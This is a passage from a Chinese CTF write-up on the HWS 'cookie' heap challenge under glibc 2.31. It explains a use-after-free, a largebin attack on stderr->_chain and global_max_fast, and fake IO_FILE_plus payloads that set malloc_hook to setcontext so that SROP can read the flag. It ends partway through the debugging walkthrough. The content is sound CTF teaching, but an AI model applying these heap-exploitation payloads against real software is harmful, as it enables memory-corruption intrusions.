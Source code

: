 此题为HWS – cookie，由于一些特殊原因就暂不提供附件了，师傅们可以根据分析写一个类似的题目

### <a class="reference-link" name="%E5%88%86%E6%9E%90%EF%BC%9A"></a>分析：

该题为glibc2.31,程序有add del edit show功能，在del里面有着明显的uaf漏洞，并且开了沙盒，add的时候只能申请largebin范围的堆块并且不超过0x600

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%EF%BC%9A"></a>利用：

我们考虑使用largebin attrack劫持stderr-&gt;_chain字段为一个堆地址并且劫持global_max_fast为堆地址用来构造chunkoverlapping,通过chunkoverlapping在0xa0的bin中留下两个堆块，其中一个是malloc_hook,然后我们利用io_file的非预期堆块申请申请到malloc_hook同时用非预期填充将malloc_hook填充为setcontext,这样在进入下一个fake IO_FILE的时候就会触发srop进而orw出flag,由此我们需要构造三个fake IO_FILE_plus，前两个用来申请到malloc_hook并且将malloc_hook填充为setcontext,最后一个用来设置rdx的值同时触发srop,

### <a class="reference-link" name="%E8%B0%83%E8%AF%95"></a>调试

我们进行简单的调试直观的看一下，首先我们通过chunkoverlapping来在0xa0的堆块中放入两个堆块，此时的bin:

[![](https://p3.ssl.qhimg.com/t017a32afa21fdf6fb5.png)](https://p3.ssl.qhimg.com/t017a32afa21fdf6fb5.png)

然后我们看一下我们的fake IO_FILE_plus<br>**Fake IO_FILE_plus1(malloc(0x90))**

```
payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #rdx
payload += p64(heap_base+0x10+0x290)+p64(heap_base+22+0x10+0x290)+p64(0)*4 #size
payload += p64(heap_base+0x1a90)+p64(0)+p64(0)+"\x00"*8 #_chain
payload += p64(0)*4+"\x00"*48
payload += p64(0x1ed560+libc_base)
```

可以看到第二行的两个地址差22，而通过我们的size计算可以得出size = (0x90-100)/2 = 22

[![](https://p4.ssl.qhimg.com/t010103630cc92153e2.png)](https://p4.ssl.qhimg.com/t010103630cc92153e2.png)

执行完之后：

[![](https://p4.ssl.qhimg.com/t019a05f4eec2600874.png)](https://p4.ssl.qhimg.com/t019a05f4eec2600874.png)

**Fake IO_FILE_plus2(malloc(0x90) &amp;&amp; hijack malloc_hook = setcontext)**

```
payload = p64(0)*2+p64(0)+p64(heap_base+0x29d0)+p64(0) #rdx
payload += p64(heap_base+0x30+0x290)+p64(heap_base+22+0x30+0x290)+p64(0)*4 #size
payload += p64(heap_base+0x1fa0)+p64(0)+p64(0)+"\x00"*8 #chain
payload += p64(0)*4+"\x00"*48
payload += p64(0x1ed560+libc_base)
```

[![](https://p3.ssl.qhimg.com/t019bbb73d2089b8dab.png)](https://p3.ssl.qhimg.com/t019bbb73d2089b8dab.png)

执行之后：
